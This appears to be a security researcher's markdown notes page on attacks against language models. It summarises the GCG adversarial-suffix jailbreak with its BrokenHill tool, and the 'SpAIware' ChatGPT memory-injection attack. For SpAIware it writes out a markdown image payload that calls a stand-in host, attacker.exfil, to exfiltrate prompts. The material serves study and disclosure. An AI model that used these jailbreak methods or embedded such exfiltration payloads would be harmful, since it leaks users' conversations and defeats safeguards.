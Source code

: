 # AI Exploits


## Greedy Coordinate Gradient (GCG) Attack

[bishopfox.com - Broken Hill Attack Tool and GCG Attack](https://bishopfox.com/blog/brokenhill-attack-tool-largelanguagemodels-llm):
*A GCG attack begins with two inputs from the operator: a request that will be sent to an LLM, and the beginning of an ideal response that the LLM could send back, if the LLM were not conditioned or instructed to avoid providing that response*. The operator provides *Adversarial content* that *causes the LLM to instead predict that the most likely continuation is*. To highlight the cause of LLM response, it is the mechanic statistical matching of what it statistically matches as a complete response. *So the LLM will then continue to add more text until the response appears complete*, *...even if the LLM has been conditioned to not provide the type of information in the request, it is very likely to ignore that conditioning, because (to anthropomorphize a bit) the LLM can see that it has already agreed to provide the information, and therefore, statistically, the most likely text to follow is exactly the information it was conditioned not to provide.*

Tool: [GitHub BishopFox/BrokenHill](https://github.com/BishopFox/BrokenHill)
## SpAIware

The introduction of API call named `url_safe` in ChatGPT informs the client if it is safe to display a URL or an image to the user or not, but this a client side check; not server-side.

1. First a memory is injected with prompt to go to `http://attacker.exfil/p.txt`, which is destination of the exfiltration of future prompts.  The payload is markdown image syntax reference`![](http://attacker.exfil/0.png?chatgptmacos=http://attacker.exfil/p.txt)`

[YouTube EmbraceTheRed Demonstration](https://www.youtube.com/watch?v=zb0q5AW5ns8&themeRefresh=1)
[embracethered.com - hatgpt-macos-app-persistent-data-exfiltration/](https://embracethered.com/blog/posts/2024/chatgpt-macos-app-persistent-data-exfiltration/)
[thehackernews - chatgpt-macos-flaw-couldve-enabled-long](https://thehackernews.com/2024/09/chatgpt-macos-flaw-couldve-enabled-long.html)

Continuous Mitigation:
- Clear your ChatGPT memory and hope that the provider deletes your data


## References

[GitHub BishopFox/BrokenHill](https://github.com/BishopFox/BrokenHill)
[bishopfox.com - Broken Hill Attack Tool and GCG Attack](https://bishopfox.com/blog/brokenhill-attack-tool-largelanguagemodels-llm):
[YouTube EmbraceTheRed Demonstration](https://www.youtube.com/watch?v=zb0q5AW5ns8&themeRefresh=1)
[embracethered.com - hatgpt-macos-app-persistent-data-exfiltration/](https://embracethered.com/blog/posts/2024/chatgpt-macos-app-persistent-data-exfiltration/)
[thehackernews - chatgpt-macos-flaw-couldve-enabled-long](https://thehackernews.com/2024/09/chatgpt-macos-flaw-couldve-enabled-long.html)